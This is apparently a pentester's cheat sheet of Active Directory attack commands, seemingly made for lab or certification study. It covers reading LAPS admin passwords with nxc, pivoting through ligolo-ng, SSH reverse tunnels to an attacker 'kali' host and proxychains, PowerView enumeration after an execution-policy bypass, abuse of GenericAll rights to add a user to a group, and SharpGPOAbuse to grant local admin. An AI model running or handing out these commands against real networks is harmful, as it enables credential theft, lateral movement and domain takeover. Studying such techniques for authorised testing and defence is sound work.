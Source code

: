 `ReadLAPSPassword` 

```jsx
//local admin password
nxc ldap 192.168.1.1 -u "dave2"  -p "password" -M laps 
```

### Port Forward

ligolo-ng

```jsx
sudo ip route add 240.0.0.1/32 dev ligolo
```

SSH

```jsx
//on local (kali)
ssh -N -L 0.0.0.0:8000:127.0.0.1:8000 dave@192.168.227.246 -p 2222 -i id_ecdsa

//on remote machine
ssh -N -R 127.0.0.1:443:127.0.0.1:631 kali@192.168.45.1
ssh -N -R 9998 kali@192.168.118.1
```

proxychains

```jsx
/etc/proxychains4.conf
socks 127.0.0.1 9998
proxychains psql -h 10.4.1.1 -U postgres 
```

### PowerView.ps1

```jsx
powershell -ep bypass
Import-Module .\PowerView.ps1

Get-NetDomain
Get-NetUser | select cn,pwdlastset,lastlogon
Get-DomainUser | select cn
Get-NetGroup | select name

Get-NetGroupMember -MemberName "domain admins" -Recurse | select MemberName
Get-NetUser -SPN | select samaccountname,serviceprincipalname
Find-LocalAdminAccess
Find-DomainShare -CheckShareAccess

Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReferenceName -match "alice"}

//check genericAll => bloodhound
Get-ObjectAcl -Identity "Domain Users" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights
"S-1-5-21-1987370270-658905905-1781884369-512","S-1-5-21-1987370270-658905905-1781884369-1104","S-1-5-32-548","S-1-5-18","S-1-5-21-1987370270-658905905-1781884369-519" | Convert-SidToName
net group "Management Department" stephanie /add /domain

//Group Policy
Get-GPO -Name "Default Domain Policy"
Get-GPPermission -Guid 31b2f340-016d-11d2-945f-00c04fb984f9 -TargetType User -TargetName anirudh
//Permission  : GpoEditDeleteModifySecurity
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount anirudh --GPOName "Default Domain Policy"
gpupdate /force
```
